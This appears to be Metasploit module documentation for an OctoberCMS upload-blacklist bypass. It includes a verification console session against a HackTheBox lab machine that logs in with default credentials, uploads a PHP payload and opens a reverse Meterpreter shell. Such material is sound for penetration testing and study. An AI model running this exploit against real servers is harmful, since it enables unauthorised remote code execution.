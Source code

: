 
## Description
An authenticated user with permission to upload and manage media contents can
upload various files on the server. The application prevents the user from
uploading PHP code by checking the file extension. It uses black-list based
approach, as seen in octobercms/vendor/october/rain/src/Filesystem/
Definitions.php:blockedExtensions().

## Vulnerable  Sorftware
https://www.exploit-db.com/apps/4ff8a9688f31b7338020d0bc85da13fc-october-1.0.412.tar.gz

## Author
Anti Räis (Discovery)
Touhid M.Shaikh (Metasploit Module)

## References
https://www.exploit-db.com/exploits/41936

## Tested on
HackTheBox October Machine (IP: 10.10.10.16)

## Verification
msf5 > use exploit/multi/http/october_upload_bypass_exec
msf5 exploit(multi/http/october_upload_bypass_exec) > set rhosts 10.10.10.16
rhosts => 10.10.10.16
msf5 exploit(multi/http/october_upload_bypass_exec) > setg verbose true
verbose => true
msf5 exploit(multi/http/october_upload_bypass_exec) > set lhost 10.10.14.8
lhost => 10.10.14.8
msf5 exploit(multi/http/october_upload_bypass_exec) > run 

[*] Started reverse TCP handler on 10.10.14.8:4444 
[+] Token for login : 3ySsc8d8VNMm2V8x3Ns4cay05bwhRxnoIkQjRnBP
[+] Session Key for login : uVNSZ2YRUm39cf8kqJcWV0qr9xhqq9krCYHeVI6m
[*] Trying to Login ......
[+] Authentication successful: admin:admin
[*] Trying to upload malicious WLMVDKmVpCX.php5 file ....
[*] Sending stage (38247 bytes) to 10.10.10.16
[*] Meterpreter session 1 opened (10.10.14.8:4444 -> 10.10.10.16:54124) at 2019-09-03 12:19:20 +0530

meterpreter > sysinfo 
Computer    : october
OS          : Linux october 4.4.0-78-generic #99~14.04.2-Ubuntu SMP Thu Apr 27 18:51:25 UTC 2017 i686
Meterpreter : php/linux
meterpreter > 
